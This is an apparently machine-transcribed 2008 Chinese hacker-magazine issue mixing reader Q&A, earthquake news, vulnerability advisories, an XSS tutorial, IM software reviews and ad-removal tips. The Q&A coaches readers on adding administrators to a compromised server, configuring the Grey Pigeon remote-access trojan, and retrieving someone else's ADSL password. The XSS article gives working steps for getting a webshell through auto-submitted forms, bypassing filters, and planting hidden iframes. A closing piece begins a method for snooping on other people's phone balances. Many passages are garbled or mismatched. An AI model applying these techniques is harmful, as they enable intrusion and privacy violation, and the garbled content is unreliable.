Q：1433 加管理员的问题

前面关于扫了一个 1433 端口的 2000 服务器，拿到了它的 CMD，开了 3389，貌似可以执行任何命令，但是它没有管理员用户，并尝试通过入口网站添加管理员。但是如果有用户能连 3389，却没有权限，请问该怎么做？

A：既然能够执行命令，建议你使用包含 `net localgroup` 之类的命令来添加管理员组。这种情况也不排除管理员更改了默认的 administrators 组，需要先找到实际的管理员组。如果远程桌面连接很困难，也可使用提权工具。

Q：关于灰鸽子与本地提权 FTP 的问题

我自己在电脑上利用 IIS 架设了一个 FTP，域名是花生壳的。我在使用灰鸽子时用了 IP 和域名，上传 `IP.txt` 的时候，出现服务器错误，不知道是不是账号密码的问题？到底是用花生壳域名的密码，还是 FTP 的密码？

A：感觉你对灰鸽子的连接方式完全不了解，思路混淆。在反弹连接中，域名没有固定 IP，一般常把目标机设置到 FTP 中转 IP 文件或者利用域名反弹。按照提供的情况，可能是你的 FTP 根本没有开启，或者域名没有刷新到本地。

确认安装 IIS 的时候已经勾选 FTP 服务，并且用相关 FTP 客户端能够正常连接。可以利用 `ftp` 命令或 leapftp 软件进行测试；如果确定能够上传，也要确认你的 FTP 目录对应到 IIS 的 web 目录，在上传 FTP 文件生成成功后可以通过访问你的反弹地址进行确认。

Q：关于“小鬼”崩溃的问题

我为了保护上网安全，到网上找了一个灰鸽子工作室的“小鬼当家 I/阳光”。在打开运行时，系统会弹出提示并报警，防火墙拦截后仍然很难处理，不知道会不会是我电脑装了木马？

A：“小鬼当家”是一个功能性很强的隐蔽性软件，其中本来设有键盘记录、远程开关机、木马等功能，但不排除你下载的安装包被木马伪装了。建议使用 SSM 或者相关安全工具查杀。

Q：关于 ADSL 的密码

我朋友在网上发邮件说，自己上网只有宽带连接时输入密码以后才能上。我记得以前 ADSL 密码不是很保密的，有没有什么办法知道原来的密码？

A：密码保存最常见的形式是保存在本地配置中，很多时候会以明文或可见的方式存在。你可以检查系统的拨号记录、注册表或保存密码的程序。

Q：网速问题

我们一个局域网，同宿舍都在电脑上网，我用的局域网现在速度太慢了，有时网页打不开，只有 10K/S 左右。请问这是怎么回事，怎样可以突破限速？谢谢！

A：局域网限速一般情况下都是内网有人使用了 P2P 软件进行 ARP 欺骗，经典的办法很简单，绑定网关 MAC 和 IP 地址就行了。当然，如果是用交换机或管理控制策略限制，那么就要进入管理员控制界面了解情况了。

## 黑客手册 安全先锋刊

## 非安全

### 汇编成文

中图计算机安全论坛总编，非法入侵他人计算机是一种违法行为

NoHack 紧急采访  
——关注地震第一线的非安全朋友

黑客编年史第二集  
十三个新洞练练看

NoHack 倡导指南  
www.nohack.cn  
原生态黑客  
[本手册仅限 CD 附送装，不得单独销售]

2006.06  
书价 10 元

2008《非安全》/ NoHack 作品

高壹：①跨站不仅仅是 alert()  
②我在入侵时的一些经验和小技巧  
让中国微笑起来！

ISBN 978-7-900452-36-8  
787900452368  
发稿 Mail: nohack@21cn.com

## “只要有一线希望，我们就要尽百倍努力！”

## 让生命与时间赛跑！全国人民在行动！

2008 年 5 月 12 日 14 点 28 分，一场突如其来的大地震袭击了四川西部山区，彭州、汶川、北川等数十个乡镇城市遭受重创。安危告急，刻不容缓，焦点聚集至此……

四川的山峦瞬间崩塌，山体滑坡、道路阻断不断影响救援，水电和通讯深受影响。某报记者身在四川，亲历灾区的情景……

灾后，前赴后继的救援队伍奔赴灾区，与时间赛跑。每一次回音都牵动着整个灾区的心灵，紧急行动！……

受灾后 24 小时内，全国各方支援力量像血液一样源源不断输送。在这受灾 72 小时的黄金救援时间内，不断有专家奔赴灾区抢救生命，重置着时间的意义。我们也看到了奇迹，感受着奇迹……据悉，在不吃不喝、并且情绪稳定的情况下，许多生命坚持了 10 多日而生存，这本身就是奇迹。

在这次灾难中，有许多孩子被困在学校的教室里，虽然教室倒塌了，但通过他们的坚持，我们看到了中国未来新生力量的希望。我们的救援与医疗队伍第一时间赶赴灾区，争分夺秒，拯救生命、安慰伤痛，努力把灾区群众的生命放在第一位。

最后，感谢全国各界、全球人民、企业单位以及四川灾区志愿者团队、医务工作者、新闻记者、社会捐助者等的支持与努力。据本文记录，这次大地震所造成的遇难人数已达 3 万多人；灾区搜救工作正在紧张有序地进行着，我们也继续为灾区祈福，期待奇迹……

国务院在 2008 年 5 月 18 日发布公告宣布，为表达全国各族人民对四川汶川大地震遇难同胞的沉痛哀悼，决定 2008 年 5 月 19 日至 21 日为全国哀悼日。在此期间，全国和驻外机构下半旗志哀，停止公共娱乐活动，外交部和我国驻外领馆设立吊唁簿。5 月 19 日 14 时 28 分，全国人民默哀 3 分钟，届时汽车、火车、轮船鸣笛，防空警报鸣放……

2008 年的中国多灾多难，中国有句古话：天将降大任于斯人也，必先苦其心志，劳其筋骨，饿其体肤……大家不要失去信心！因为我们有一个强大的祖国，有着最好的人民！愿逝者安息，生者坚强！

## 新闻眼吧

> 让我帮助，大地之母，救重的震下，理了生命。重重的墙，给我折断，只有我在命下，都要听话。渡过灾难，听到嘱咐，外面有个声音，昨夜的你，跪到地起，背影刺穿了心底，远离如梦……

## 新闻短评

部分红十字会官方网站涉嫌被非法入侵，捐款账号被篡改

四川地震影响着全国人的心，各界纷纷捐献，有人却趁机行骗，扰乱救援秩序。部分网站，特别是红十字会官方网站被更改，一时之间出现多起伪造信息与账号篡改现象，相关部门已紧急采取措施。

开户名：李步九，开户行：邮储银行，账号：6221XXXX123；  
开户名：林五开，开户行：农业银行，账号：9559XXXX0312；

小编点评：好一个李步九！估计是假名，开了四个账户，大家的好意又一次变成了骗局……！

警方提醒广大市民：有些捐款短信和网站是骗局！

## 非主流黑客手册 2008.06→【黑火台】

“伪造赈灾账号”类，如“四川汶川发生 7.8 级地震，欢迎各界人士为重建家园基金捐资捐款”；“救援捐款会”类，如“爸妈，我正被确认为犯罪嫌疑人，还是立刻打掉我的手机，等派送 5000 元到我现在的**卡，勿来电！”

网站骗局：除了短信骗局外，网站骗局也开始出现。某安全公司监测到一个利用四川地震灾情诈骗钱款的钓鱼网站，网站仿照腾讯网、慈善网等页面，伪装成官方网页界面，几乎完全模仿，唯一的漏洞是其公布的“捐助账号”是建设银行的私人账号。

## IE7 DisableCachingOfSSLPages 选项失效漏洞

Internet Explorer 是微软发布的流行 Web 浏览器。管理员和用户可以在 Internet Explorer 中设置 DisableCachingOfSSLPages 选项，以防止将个人隐私数据缓存到磁盘，这个选项的注册表项为：

`HKEY\Software\Microsoft\Windows\CurrentVersion\Internet Settings\DisableCachingOfSSLPages`

当用户启用这个选项后，Internet Explorer 7 仍会将启用了 SSL 的网页缓存到磁盘上，导致隐私或敏感数据被写到磁盘。

受影响系统：

- Microsoft Internet Explorer 7.0

## Microsoft 恶意软件保护引擎拒绝服务漏洞

Microsoft 恶意软件保护引擎可帮助识别病毒和反间谍软件，并为客户端提供扫描和清除功能，但其处理特定文件的方式中存在缓冲区溢出漏洞。攻击者可以通过构造针对特定文件的压缩包，当 Microsoft 恶意软件保护引擎在打开或解析此文件时，就可能导致系统崩溃，进而造成拒绝服务攻击和其他可用性问题。

受影响系统：

- Microsoft Windows Live OneCare
- Microsoft Antigen for SMTP Gateway
- Microsoft Antigen for Exchange
- Microsoft Windows Defender
- Microsoft Forefront Security for SharePoint
- Microsoft Forefront Security for Exchange Server
- Microsoft Forefront Client Security
- Microsoft Diagnostics and Recovery Toolset 6.x

## Microsoft Word RTF 畸形字符处理漏洞

Microsoft Word 是 Office 套件中的文字处理软件。Word 处理特定 RTF 格式（.rtf）文件的方式中存在溢出漏洞，如果用户在 Word 中打开带有畸形字符的特制 `.rtf` 文件，或在富文本电子邮件中预览带有畸形字符的特制 `.rtf` 文件，就会触发这个溢出，导致执行任意指令。

受影响系统：

- Microsoft Office 2008 for Mac
- Microsoft Office 2004 for Mac
- Microsoft Outlook 2007 SP1
- Microsoft Outlook 2007
- Microsoft Word Viewer 2003 SP1
- Microsoft Word Viewer 2003
- Microsoft Word 2003 SP3
- Microsoft Word 2003 SP2
- Microsoft Word 2002 SP3
- Microsoft Word 2000 SP3

临时解决方法：

使用 Microsoft Office 文件阻止策略，禁止打开来自未知或不可信来源和位置的 Office 2003 以及较早版本的文档。下列注册表项可用于设置文件阻止策略。

对于 Office 2003：

```reg
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Office\11.0\Word\Security\FileOpenBlock]
"BinaryFiles"=dword:00000001
```

对于 Office 2007：

```reg
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Office\12.0\Word\Security\FileOpenBlock]
"HTMLFiles"=dword:00000001
```

不要打开或保存来自不受信任来源，或从受信任来源意外收到的 Microsoft Office 文件。

厂商补丁：Microsoft 已经为此发布了一个安全公告（MS08-026）以及相应补丁。  
MS08-026, Vulnerabilities in Microsoft Word Could Allow Remote Code Execution (951207).  
链接：http://www.microsoft.com/technet/security/bulletin/ms08-026.mspx?mfr=true

## 手把手教你拿 SHELL 之 XSS 下的一些利用

从本文你可以学到：

1. 利用跨站拿 shell
2. 如何构造跨站代码绕过过滤

开始就不需要我讲了，XSS 的英文原理就是 “cross site script” 的缩写。为了区别 CSS（层叠样式表），于是就叫 XSS 了。和各位目前所知的一样，XSS 危险的原因就是它能在瞬间感染访问用户，达到蠕虫的效果。产生的原因就是因为没有对这些脚本标记进行有效过滤。那么，XSS 可以干什么呢？我总结了一些常见的手段。

## 一、XSS 下拿到 WebShell

这个办法在前几期的手册上有谈到过，但是作为系列教材还应该拿出来仔细讲讲。首先在本地搭一个 IIS，然后随便找个“巧妙材料注释”，因为要构造一个看似人眼不可见、却能在文件里自动执行的过滤文件，构造一个没有经过严格过滤的“漏洞系统”，在 Windows 2003 的环境下未测试。拿出对应办法就是把上传好的东西命名一下，来看看备份的 HTML 代码是怎么样的：

```html
<form name="form1" method="POST" action="admin_bekcbk.asp?action=back">
<table width="100%" border="1" align="center" cellpadding="1" cellspacing="0" bordercolorlight="#cccccc" bordercolordark="#ffffff">
<tr>
<td align="center" height="25"><strong>备份数据库</strong></td>
</tr>
<tr>
<td height="25">你的空间只有支持 1G or 1M 可选的扣单，暂时只能手动备份</td>
</tr>
<tr>
<td height="25">数据库路径
<input type="text" name="curr" size="30" value="../../data"></td>
</tr>
<tr>
<td height="25">数据库名称
<input type="text" name="backup" size="20" value="mdbcbk"></td>
</tr>
<tr>
<td height="25">
<input type="text" name="backfil" size="20" value="back.asp"></td>
</tr>
<tr>
<td>
<input type="submit" name="submit2" value="备份"></td>
</tr>
</table>
</form>
```

方式是 POST，我们现在开始修改这个东西，数据库路径里 value 值改为你上传上去的 JPG 马的相对地址，备份的数据库名称的 value 可以自定，然后在最后加一个 `<script>document.form1.submit();</script>` 来实现自动提交，管理员访问有带站代码的页面时候会自动执行 SCRIPT，这样就修改完了，多了一个把提交的语句，相当于 POST 的功能了。我们在控制上面去，在留言部分：`<iframe src="/webshell.jpg" width=0 height=0></iframe>`（其中：webshell.jpg 里的内容就是载入），如图 1，当管理员进入就得到了 webshell，如图 2。

## 二、绕过过滤“黑”网站以及过滤

其实这个也不算新鲜的事，单作为 XSS，就拿出来讲。首先就是一个过滤问题，xss 是不可能简单地出现的，在某些情况下，选择用 xss“黑”网站比较有针对性。我们先来写一首示范代码，`<script>alert("xss")</script>`，其中的 alert 仍是系统自带的，最好由我们来做一些处理。`<script>alert("xss")</script>` 一方过滤是通过去除大小写，比如转换成 `<ScRipt>alert("xss")</ScRipt>`，这样一来代码又可以执行了。如果 `<script>` 标记被过滤了呢？！我们可以用很多较软替代的标签，比如：`<applet>`、`<body>`、`<embed>`、`<frame>`、`<script>`、`<frameset>`、`<html>`、`<iframe>`、``、`<style>`、`<layer>`、`<link>`、`<ilayer>`、`<meta>`、`<object>`，这些都可以利用。


我们拿 `` 标签来利用，比如 ``；这段代码则是通过 JavaScript 来激发的，用 src 赋值给 javascript，接着触发该脚本。假设有 javascript 被系统过滤了呢？要知道现在 xss 花样多，但是也是有过滤的！我们用 Tab 触发试试 ``，脚本又会执行，原因就是它 Tab 错写，浏览器在启动时会触发，绕过了过滤。其实还可以用 16 进制、8 进制的方法来绕，比如：

```html


```

javascript 脚本被过滤的话还有很多办法绕过。比如：``，这样，我们的标签不执行了，如图 4、图 5、图 6 所示，很多浏览器会出现这 2 个图标的属性为什么不一样。通常一层剥离一下，我们真实环境也很少会用这种办法让 `alert()` 函数执行，比如：``，这是默认的 JavaScript 执行的，利用的是事件处理器。


```html
<script>
document.write(
  '<div style="width:1px;height:1px;" ' +
  'onmouseover=alert("xss")></div>'
);
</script>
```

代码操作是直接获取标题，然后发布出去，我们来看源代码，如图 7。现在开始找代码吧：`<div style=... expression(document.write('NoHack xss'))></div>`，然后再看着留言板怎么样了，页面就会变成新的样子，如图 8。真可怕，这样把一个网站黑了。大家别学着弄，跟上思路看文章。

## 三、挂马

xss 也是很简单，想想如果设计维护的话大家都会直接用 `<iframe>` 标签，但是现在的网站不是白痴，随便找下 iframe 标签就 OK 了，怎么办？其实在以上的标题，通过 `document.write` 来实现，那么我们真的目标页面上，就可以使用 `Top.document.body.innerHTML=Top.document.innerHTML + '<iframe src=xxx?? width=0 height=0></iframe>'` 保存为 js 文件，然后再引用这个文件：`<!--#include file="nochack.js"-->` 就找到了隐藏的挂马。


> 方法很多，要提的是自己学习对锁定、以所谓的浅显单一的知识；当然，对于大家更好的学习 xss 的知识，我也介绍一个目的 xss 演示如下：  
> http://xss.xssor.cn 和 http://xss.xssor.cn/cn/xss，在测试网址上加入了一个网址，由于写稿和发布后台的技术，也未能表达得很清楚。详细的地方可以去我博客 http://www.xssor.cn 里提，不过，域名各位就是 xss！

编辑点评：XSS 是个经常讲的东西，也许有人是停留于“插楼事件”么，乱帖不丁乱，但是真用好就会包含在 AJAX、利用网站本身的一些漏洞。WEB WORMS 就是这是个关于 WEB 2.0 的 AJAX 式站点利用，大家可以说得很清楚的 D0NG，解除完是个什么，从杀彩 HTML、JAVASCRIPT，大家可以拿 MONEY 的网站去看看。以前听到它也的文章，现今的人不少，利用对 XSS，真的很好理解……

## 淡谈 Windows 下的 IPSec

从本文你可以学到：IPSec 的基础知识

常看到“黑手”上关于 IPSec 的文章，讲得很不错，很实用，但出于很多初学者可能对 IPSec 并不是很了解，所以下面用浅显粗糙扯一下，给大家讲讲 IPSec 方面的知识，让大家能对 IPSec 有一个清楚的认识。另外，由于 IPSec 可在不同的系统中运行，在不同系统的实现过程所遵循的规则都不同，加上隐私能力有限，所以本文仅探讨 Windows 下的 IPSec，不足之处还请大家见谅和指正，也希望对 IPSec 感兴趣的朋友有所帮助。

## 第一部分　基础知识

### 一、IPSec 概念

IPSec 即 IP Security Policy，即 IP 安全策略。它是一种工作在 TCP/IP 网络层的协议，也就是说 IPSec 要保护网络层的通信安全。在网络层有两个重要的协议：IP 和 ICMP，大家都知道 IP 对应的是 IP 地址，而 ICMP 为 IP 的可选协议，它要依赖于 IP 协议，主要用于报告差错和测试 IP 地址的可达性，可达性在 ICMP 中称为 echo reply（回声响应），也就是 ping 命令，因此 ICMP 也就能 ping 通 IP 地址了。

单就网络层实现 IPSec，使得 IP 变得应用能力有限，不过在此阶段，由于网络通信中离不开开放，大家常搞网络编程的就应知道这个在应用 Socket（套接字）考试系统中，前面只要传完了传输层，加入 ICMP 的地址方式也很简单，所以只要传输层的协议也就打到 IPSec 中去处理。其实它必须这样，这就相当于 ARP 和 IP 协议，虽然工作于不同的层次，但在实现原理方面是相类似的，所以可以理解，这样也不难。

IPSec 既然是一种工作在 TCP/IP 网络层的协议，它具有一定的能力，因此要对 IP 进行控制。一般的网络通信必须以 IP 为基础进行通信，IPSec 也是。它由不同的层组成，在传输层上，它加密和认证对数据进行保护，除此之外，还有两种协议 AH、ESP、IKE、身份验证和密码学算法等。IPSec 结合这些去完成数据完整性及认证过程，IPSec 可以将通信双方建立一个安全的隧道，而 IPSec 也可以对路由层等各种安全数据的传递进行保护，因此数据安全性得到充分保障。如果使用 IPSec 作为网络传输中的安全通信，则可防止数据流被窃听、篡改和伪造，进而使整个网络得以保证。

### 二、密钥与数据加密

密钥就好比我们常见的钥匙一样，钥匙可以加锁和开锁，密钥则可加密和解密数据。数据加密是指用加密算法将正常的数据变为我们难以理解或毫无意义的数据，比如变成一堆字符串。如果我们直接将数据放在网络上进行传输，这是很不安全的，很容易被监听，然而数字证书就可以对数据进行加密、认证或完整性保护。如果我们将数据加密之后再传输，即使在网络上被截获后，也不易看出来其中内容，但对于像保存安全、用户可用时开与解密服务数据，即使密钥被破解，也对密钥的安全不易受到威胁。

使用对称密钥的方法有 DES、3DES、MD5、SHA。其对称密钥是由加密和解密两步，由一个密钥（称为母钥）加密，产生另一个密钥（称为私钥），再与之匹配，也就是说对称密钥的加密算法，有时采用了对称密钥的传输时间密钥。由于对称密钥的传输密钥过程高，因此在对称密钥中通常不使用非对称密钥 RSA、DH，但由于非对称密钥实现速率较低，因此在数据量不大时才会被采用。由于对称密钥运行速度快，在网络中大多采用。

### 三、AH 与 ESP

AH 即 Authentication Header，简称认证头，用于确保传输数据的完整性（未被修改）和真实性的头。它的结构如图 1。

发送方发送数据时在 IP 头部后面插入 AH 头部，并将 IP 头部中的协议位设为 51，表示此为 AH，接收方收到后对 AH 头部进行处理。IP 数据报部分是否被封装的数据，可以在 AH 头部中有 6 个字段，其中“下一个首部”表示该 AH 头部后的首部。AH 头部中的“SPI”表示安全参数引用，用来标志一个 SA（安全关联），“序号”用于防止重放攻击，“保留”字节未用，“AH 认证部分”采用数字签名来实现对传输数据的完整性和真实性检查，主要是用来以用户的身份标识某一方。

由于 AH 头部没有对用户数据进行加密，所以若要对用户数据进行加密，必须通过相应的加密模块，获得密钥并由此来计算就可以了。


ESP 即 Encapsulation Security Payload，简称封装安全负载。ESP 比 AH 更先进，它将用户数据加密后再封装到 IP 包中，从而可以实现通信中的保密性。它的基本结构如图 2。


这里要将 IP 报头中的协议字段设为 50，表示是 ESP，在 ESP 头部中有一个重要的 SPI 码。ESP 尾部包括下一个首部，ESP 认证部分和 AH 的认证部分一样。AH 和 ESP 可以单独实施，也可以同时对两种方式进行安全通信。

## 非主流 IM 软件简单测试

从本文您可以学到：了解几款常用 IM 软件的特点

如果说网络改变了人们的生活方式，那么 IM 软件（即时通信软件）就改变了人们的联系方式，一直以来只要提到 IM 软件，我们首先就会想到腾讯 QQ。其实除了腾讯 QQ 以外，我们还有很多的 IM 软件可以选择。虽然这些软件并不是主流的 IM 软件，但是我们依然可以强烈体验到不同之处。今天我们就选择了常见的四款 IM 软件，百度 Hi、Lava-Lava、新浪 UC 和网易泡泡，来对它们进行一番简单的比较测评。

### 一、软件测评

### 1. 百度 Hi

3 月 26 日百度 Hi 开始进行公测，笔者也有幸得到一个百度好友的邀请码。利用百度账号登录以后，程序会自动导入百度空间中的好友，接着可以随时与他们进行对话。为了避免网络账号过多的烦恼，用户可以开通“邮件地址登录”功能，这样就可以使用邮件地址登录百度 Hi。百度 Hi 的界面可以看到，百度 Hi 还是非常简洁的，目前只加入了人们常见的控制功能，并且没有让人深恶痛绝的广告。

百度 Hi 的用户查找和好友添加是分开的，点击“找朋友”菜单可以在百度、豆瓣、迅、校、搜、碰、和趣、基金、财富、博客与 SNS 中查找朋友。点击“添加”按钮可以根据账号和邮箱地址，来直接添加相应的用户。正所谓“物以类聚，人以群分”，这就是专门为了与志同道合的网友进行交流而设计的。

百度 Hi 融合了百度的其它产品，比如百度搜索、百度知道、百度空间都进行了集成。比如点击左上方的空间图标，用户不需要进行登录即可进入空间首页。如果用户好友的空间进行更新，会在联系人头像的左侧进行提示。QQ 中的“最近联系人”更新，帮助用户更好地跟踪好友的所有消息，而百度 Hi 中选择“按联系频度排序”选项，可以将联系最频繁的好友放到一目了然。

> 小结：从百度 Hi 的整个界面看，可以看得出百度 Hi 还算不是一款非常出众的 IM 软件。软件已经结合了即时通讯这样的功能，因此很多用户看不出和其它产品有何区别。也许百度 Hi 的安全性较高，毕竟开放这种使用，让人们对其并不放心。

### 2. Lava-Lava

Lava-Lava 安装完成以后，在登录界面中点击“申请 GID 号”申请一个 Lava-Lava 的账号。整个申请流程和 QQ 的申请过程差不多，同样提供账号与电子邮件地址进行注册。登录界面的设计给人一种很简洁、很干净的感觉。

“网吧模式”可以在退出的时候清除相关信息，从而有效地保护个人安全。登录成功以后发现 Lava-Lava 的界面同样非常地简洁大方并且没有广告。

到这里就可以看到“添加”按钮，在弹出的查找界面中选择“普通在线用户”，点击“下一步”按钮系统会返回在线用户信息。除此以外，还可以用来“查找本地网络用户”、“搜索吧或商盟”、“付费查找”、“按关键字查找”等来查找和添加好友。为了给不同平台的伙伴提供轻松交友的环境，Lava-Lava 为用户提供了“部落”功能，每个部落支持最多 300 人进行交谈。

Lava-Lava 也支持文字、语音和视频等多种聊天方式，并且还可以支持语音留言，用户可以随时录制 30 秒留言给不在线的好友。虽然 Lava-Lava 并没有采用 GIPS 语音引擎，但是其无论是在音频、视频的效果上，已经和腾讯 QQ 相上下。而且 Lava-Lava 所提供的多人语音视频会议，让多人交谈变得更加方便。文件传输是一项必玩的功能，文件传输有单独的功能，还支持文件两级传输。另外程序特有的“10 分钟提醒”功能，会在 10 分钟后再次向你弹出提示。

随着 Web 2.0 时代的到来，网络社区和 IM 软件进行关联已经深入人心，用户可以登录 Lava-Lava 的社区网站。另外 Lava-Lava 的文件共享功能，可以让用户轻松分享任何资源，这样通过电子邮件等不方便共享的大型文件就能方便地传送。用户只需要对共享资源的访问权限、密码验证等信息进行设定即可。

小结：Lava-Lava 虽然名字比不上腾讯 QQ，但是不断创新的精神还是比较好的。它的功能很简单、界面很清爽，尤其是它高效的文件传输方面，虽然和主流 IM 软件相比可能有些逊色，但是由此也可以看出其在 IM 软件中的优势。

### 3. 网易泡泡

网易泡泡是由网易公司开发的一款即时通讯工具，因此用户直接使用网易的通行证来登录。这样用户使用一个网易账号，就可以享受到网易所有的服务内容。登录成功以后可以看到，网易泡泡集中了网易的主要功能，包括电子邮件、图片共享等，并且会提示邮箱中的新邮件。网易泡泡的界面同样非常简洁，并且页面也没有任何广告信息。

点击操作界面下的“添加好友”按钮，在弹出的窗口“查找用户”中，用户可以利用通行证、省份城市、性别和年龄等信息查找用户。相信很多使用过 QQ 的朋友一定都知道“群”功能，而网易泡泡中也提供了功能更加全面的“兴趣组”，这样志同道合的朋友就可以申请和加入。网易泡泡还创建了海量的兴趣组，最大成员限制分别为 50、200、500、1000 四种，不过要注意数量等方面要求并没有 QQ 那样自由。文字、语音、视频这些聊天方式，对于网易泡泡来说也是一个都不少，但是网易泡泡的音频和视频效果并不是太好，但文字聊天一次支持发送 300 字的超大内容。对于文件传输也和腾讯 QQ 类似，支持网易中国内和多方传送服务，另外对于文件的传输，文件都是经过加密处理，可暂时网站不支持文件的离线传输。

另外，网易泡泡还可以通过插件支持 MSN 和 Yahoo，这样用户只需要登录网易泡泡就能和三款即时通信软件中的好友进行交流。除此以外，网易泡泡还提供了一个很有个性的音乐盒，用户不但可以进行本地和在线音乐的播放，还可以对网络电台的信息进行收集，从而实现聊天和娱乐两不误。

小结：网易泡泡除了基本的即时通讯功能外，最重要的功能依旧是便捷通讯，还有比较实用的功能，可以从这些软件的交互性上看出来。由于网易泡泡实在很个性，并且体现出人与人的差异。

### 4. 新浪 UC

新浪 UC 是新浪从其它软件商购买的一款 IM 软件。点击“申请 UC 号”按钮来申请新浪 UC 账号，申请过程和 QQ 号码的申请过程是一样的。如果用户已经拥有新浪通行证的话，那么也可以使用新浪通行证直接登录使用 UC，这时 UC 系统会自动分配给你的一个 UC 号码。新浪 UC 的界面设计得非常简约，不过在其聊天窗体的上方拥有广告。

点击 UC 主窗口中的“查找”按钮，在弹出的窗口就可以查找好友来交流。UC 提供了多种查找方式，分别是“看看谁在线”、“通过 UC 号码查找”、“通过新浪会员名查找”和“找回通讯录”。为了方便用户提供一个专门的聊天区域，新浪 UC 提供了“同学录”和“圈子”两类，用户可以根据网站类型来进行搜索查找。

新浪 UC 也包括文字、语音、视频这些聊天功能，而且该项功能的界面设计表现一般。新浪 UC 的文件传输非常稳定，而且最多支持 10 个文件进行传送，用户只要拖动文件以后，如果想把要共享的内容进行共享的话，可以点击“发送”按钮后选择想要发布的好友即可。另外，在“推荐聊天室”集合了很多聊天室，在聊天室中就可以和各用户即时交流沟通。

由于新浪 UC 最重要的资讯信息就是新闻，因此把内容全部勾出“今日资讯”窗口，在里面就可以看到最新的新闻信息。另外由于新浪 UC 集合了游戏、博客、播客、直播等内容，用户可以全方位地使用新浪提供的各种功能。尤其是其提供的直播功能，可以收看各种各样的直播节目。

小结：新浪 UC 除了基本的聊天和视频功能外，最重要的就是其资讯和娱乐功能，可以说 UC 完全成了一种崭新的软件，是一款集合性软件。

编辑点评：IM 软件并非都是强项，因为不同的登录、功能上大致相似，但各个软件也有自己的特色。最强的音乐类在中国国内发展的局面不再乐观了，这对于自身功能强大的软件来说，打开电脑就安装 N 个 IM 软件，让人很头痛。


## 我的日志你别看——QQ空间日记机密

通过本文您可以学到：

- 通过 Flash “加密”你的空间日志

有时候，自己在 QQ 空间里写写文章，发发自己的感想和照片。如果你的某一篇文章不想让其他人看到，只想让你心中的那个人看看，有什么办法不让 QQ 空间访问密码，也不被好友发现，就能让别人正常访问自己的空间，而且他人看不到你加密的日志文章呢？

我们可以通过在文章中插入一个 Flash 与“禁止一键转载”即可实现。

**Flash 地址：** http://data1.flash.qq.com/0/0/191/246-1187856323.swf?key=你想要设置的密码

密码是自定义的，把地址最后面的“你想要设置的密码”改成你要设的密码。

在文章里插入的 Flash 宽为 666，高是根据自己文章的字数来定。按照坐标自己来设，如果日志短短的，如图 1，你可……

编辑寄语：

这个方法的原理是通过 Flash 来处理日志里的内容。最好理解为：通过 Flash 来处理日志内容，只是可以控制日志的展示内容，而不是真的“加密”。

## QQ 和 MSN 中的广告

通过本文您可以学到：

- 手工清除 QQ 和 MSN 的广告

腾讯 QQ 和微软 MSN 是国内用户最常用的两款 IM 软件。通过 IM 软件给广大用户，无论是工作还是生活，都带来了极大的便利。可是让人感觉困扰的是，这两款软件都带有广告信息，因此让很多用户都感到非常不爽。今天就教大家如何去除其内的广告信息，希望那些被骚扰广告内容困扰的朋友赶紧往下看。

### 一、清除 QQ 的广告信息

方法一：首先找到 QQ 的安装目录，通常 QQ 都安装在 Program Files\QQ 文件夹里。其实修改的方法也非常简单，首先通过查找存放皮肤的文件夹，其中有一个文件名为 IMSkin.ini，利用记事本程序打开它进行编辑，查找 rightSpace 这个字符串，把程序原本的 `rightSpace=0` 改为 `rightSpace=242`，再继续查找 `menuShowBand` 这个字符串，同时将其默认的 `menuShowBand=0` 改为 `menuShowBand=0` 即可。其实这里主要是注意这个菜单前面的空格，如图 1，其他的字符不要动。然后保存记事本信息，重启 QQ 软件，发现广告是不是已经不见了呢？

方法二：这种方法只适用于硬盘格式为 NTFS 的系统。如果用户是采用全新安装的方式安装了 QQ2007II 和 2008 版本的话，同时选择了新的文件存储方式并且已经运行过 QQ 了，那么就需要使用其他的广告过滤方法。

以前 QQ 的广告存放在 AD 这个子目录里面，而现在则换到了新的目录。Windows XP 下通常在 `C:\Documents and Settings\...\Local Settings\Application Data`。这个 AppData 是隐藏的系统文件夹，通过“文件夹选项”中的“显示所有文件和文件夹”才可以发现 QQ 存放在里面的广告信息内容。

因此首先清除其中所有的广告信息内容，接着在 NTFS 权限中禁止该隐藏文件夹下写入文件。选择该文件夹属性，然后在“安全”标签里面点“编辑”，然后把 Users 的“写入”权限设置为“拒绝”即可。如下图 2。如果用户在文件夹“属性”中没有找到“安全”标签，可以打开控制面板中的“管理工具”，选择其中的“本地安全策略”，然后选择“本地安全设置”中的“安全选项”，在右侧窗口中找到“网络访问：本地账户的共享和安全模式”一项，双击后在窗口中选择“经典——对本地用户进行身份验证，不改变其本来身份”，如图 3。

## ms08025 出炉

从本文你可以学到：

- ms08025 的简单利用

图 1

图 2

图 3

图 4

图 5

### 一、总结

在这篇文章的引言部分，本文重点介绍了 Windows 平台下的一个漏洞利用过程，并说明了如何通过修改系统文件和注册表来达到“去广告”的目的。文章进一步分析了相关的安全设置与权限控制方法，提到可通过命令行与系统目录中的特定文件进行操作。

### 二、清除 MSN 的广告信息

MSN 的广告信息清除并不复杂，主要是借助几个工具和对系统文件的编辑。首先需要定位到相关 DLL 文件并进行备份，然后在资源管理器或编辑器中打开对应的配置项，修改其中的内容以实现屏蔽广告。本文展示了通过修改 setupstore.ini 和 msgsres.dll 等文件来去除广告的过程。

### 三、总结

通过上面的介绍可以看出，去除 QQ 和 MSN 中的广告是通过调整程序内部设置或替换相关资源文件完成的。掌握了这种方法之后，无论是对新版 QQ 还是其他应用程序，都可以尝试去除其中的广告内容，从而获得一个更加清爽的使用界面。

## 利用农行网上银行窥探他人手机余额

从本文你可以学到：

- 如何利用网上银行查询他人手机余额

随着信息时代的到来，网上银行带给我们很多便利，让我们足不出户就可以完成一系列的交易活动。但有些网上银行也存在一些问题，最近在中国农业银行的网上银行进行手机缴费的时候，竟然发现了一个可以查询他人余额的方法。

首先要先申请开通网上银行，具体步骤可以咨询当地农行。大体方法就是先办理一个农行的金穗卡，然后申请开通网上银行，填表、签合同，过几个工作日之后去银行领取密码单，再到指定网点取得数字证书，然后把证书安装在自己的电脑上。一切齐备之后，网上银行就可以使用了。

在农行的网站上登录网上银行（农行的网址是 www.95599.cn，千万不要手抖）。登录之后能看到很多功能，如查询、转账、网上缴费等。要想在线给手机缴费，先点击“网上缴费”菜单，如图 1。

然后点击“网上缴费信息维护”，选择缴费收费行，这里选择你的开户行所在的分行，如“河北分行”，选择完毕后点“提交”按钮，如图 2。

